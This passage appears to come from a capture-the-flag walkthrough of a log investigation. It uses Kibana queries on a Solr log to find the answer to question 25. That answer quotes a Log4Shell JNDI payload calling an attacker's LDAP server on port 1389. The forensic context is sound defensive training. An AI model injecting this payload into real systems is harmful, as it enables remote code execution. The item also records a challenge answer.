 #### 25. What is the JNDI payload that is connected to the LDAP port?

`🖥️ Kibana`

- From the same message or you can use `log.file.path :/var/solr/logs/solr.log ` we can see the jndi payload that are connected back to the ldap server in attacker machine, or you can search using `log.file.path :  "/var/solr/logs/solr.log" and message: *jndi*`, will get the same.

![image](../assets/img/elastic-case/48.png)

> flag: {foo=${jndi:ldap://192.168.1.10:1389/Exploit}}


##### ---------------------- I really hope you found this challenge and walkthrough useful.----------------------